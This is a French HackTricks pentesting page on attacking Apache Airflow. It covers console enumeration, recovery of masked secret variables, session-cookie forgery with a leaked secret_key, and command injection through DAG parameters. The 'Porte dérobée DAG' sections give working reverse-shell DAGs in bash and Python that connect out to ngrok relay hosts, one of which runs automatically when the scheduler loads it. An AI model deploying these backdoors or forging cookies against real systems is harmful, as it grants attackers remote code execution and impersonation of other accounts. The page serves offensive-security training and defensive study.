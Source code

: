 # Sécurité Apache Airflow

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de base

[**Apache Airflow**](https://airflow.apache.org) sert de plateforme pour **orchestrer et planifier des pipelines de données ou des workflows**. Le terme "orchestration" dans le contexte des pipelines de données signifie le processus d'organisation, de coordination et de gestion de workflows de données complexes provenant de diverses sources. L'objectif principal de ces pipelines de données orchestrés est de fournir des ensembles de données traitées et consommables. Ces ensembles de données sont largement utilisés par une myriade d'applications, y compris mais sans s'y limiter, les outils d'intelligence d'affaires, les modèles de science des données et d'apprentissage automatique, qui sont fondamentaux pour le fonctionnement des applications de big data.

En gros, Apache Airflow vous permettra de **planifier l'exécution de code lorsque quelque chose** (événement, cron) **se produit**.

## Laboratoire local

### Docker-Compose

Vous pouvez utiliser le **fichier de configuration docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) pour lancer un environnement docker apache airflow complet. (Si vous êtes sur MacOS, assurez-vous de donner au moins 6 Go de RAM à la VM docker).

### Minikube

Une manière simple d'**exécuter apache airflow** est de le faire **avec minikube** :
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configuration d'Airflow

Airflow peut stocker des **informations sensibles** dans sa configuration ou vous pouvez trouver des configurations faibles en place :

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC Airflow

Avant de commencer à attaquer Airflow, vous devriez comprendre **comment fonctionnent les permissions** :

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Attaques

### Énumération de la Console Web

Si vous avez **accès à la console web**, vous pourriez être capable d'accéder à certaines ou à toutes les informations suivantes :

* **Variables** (Des informations sensibles personnalisées peuvent être stockées ici)
* **Connexions** (Des informations sensibles personnalisées peuvent être stockées ici)
* Accédez-y via `http://<airflow>/connection/list/`
* [**Configuration**](./#airflow-configuration) (Des informations sensibles comme la **`secret_key`** et les mots de passe peuvent être stockées ici)
* Liste des **utilisateurs & rôles**
* **Code de chaque DAG** (qui peut contenir des informations intéressantes)

### Récupération des Valeurs des Variables

Les variables peuvent être stockées dans Airflow afin que les **DAGs** puissent **accéder** à leurs valeurs. C'est similaire aux secrets d'autres plateformes. Si vous avez **suffisamment de permissions**, vous pouvez y accéder dans l'interface graphique via `http://<airflow>/variable/list/`.\
Par défaut, Airflow affichera la valeur de la variable dans l'interface graphique, cependant, selon [**ceci**](https://marclamberti.com/blog/variables-with-apache-airflow/), il est possible de définir une **liste de variables** dont la **valeur** apparaîtra comme des **astérisques** dans l'**interface graphique**.

![](<../../.gitbook/assets/image (79).png>)

Cependant, ces **valeurs** peuvent toujours être **récupérées** via **CLI** (vous devez avoir accès à la base de données), **exécution de DAG arbitraire**, **API** en accédant au point de terminaison des variables (l'API doit être activée), et **même l'interface graphique elle-même !**\
Pour accéder à ces valeurs depuis l'interface graphique, il suffit de **sélectionner les variables** que vous souhaitez accéder et de **cliquer sur Actions -> Exporter**.\
Une autre méthode consiste à effectuer un **bruteforce** sur la **valeur cachée** en utilisant le **filtre de recherche** jusqu'à l'obtenir :

![](<../../.gitbook/assets/image (30).png>)

### Élévation de Privilèges

Si la configuration **`expose_config`** est définie sur **True**, à partir du **rôle Utilisateur** et au-delà, il est possible de **lire** la **configuration dans le web**. Dans cette configuration, la **`secret_key`** apparaît, ce qui signifie que tout utilisateur avec cette clé valide peut **créer son propre cookie signé pour se faire passer pour un autre compte utilisateur**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Porte dérobée DAG (Exécution de code à distance dans un worker Airflow)

Si vous avez un **accès en écriture** à l'endroit où les **DAGs sont sauvegardés**, vous pouvez simplement **en créer un** qui vous enverra un **shell inversé.**\
Notez que ce shell inversé sera exécuté à l'intérieur d'un **conteneur de worker airflow** :
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Porte dérobée DAG (Exécution de code à distance dans le planificateur Airflow)

Si vous configurez quelque chose pour être **exécuté à la racine du code**, au moment de la rédaction, cela sera **exécuté par le planificateur** quelques secondes après l'avoir placé dans le dossier des DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Création de DAG

Si vous parvenez à **compromettre une machine à l'intérieur du cluster DAG**, vous pouvez créer de nouveaux **scripts DAG** dans le dossier `dags/` et ils seront **répliqués dans le reste des machines** à l'intérieur du cluster DAG.

### Injection de Code dans DAG

Lorsque vous exécutez un DAG depuis l'interface graphique, vous pouvez **passer des arguments**.\
Par conséquent, si le DAG n'est pas correctement codé, il pourrait être **vulnérable à l'Injection de Commande.**\
C'est ce qui s'est passé dans ce CVE : [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tout ce que vous devez savoir pour **commencer à rechercher des injections de commande dans les DAGs** est que les **paramètres** sont **accessibles** avec le code **`dag_run.conf.get("param_name")`**.

De plus, la même vulnérabilité peut se produire avec les **variables** (notez qu'avec suffisamment de privilèges, vous pourriez **contrôler la valeur des variables** dans l'interface graphique). Les variables sont **accessibles avec** :
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Si elles sont utilisées par exemple à l'intérieur d'une commande bash, vous pourriez réaliser une injection de commande.

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
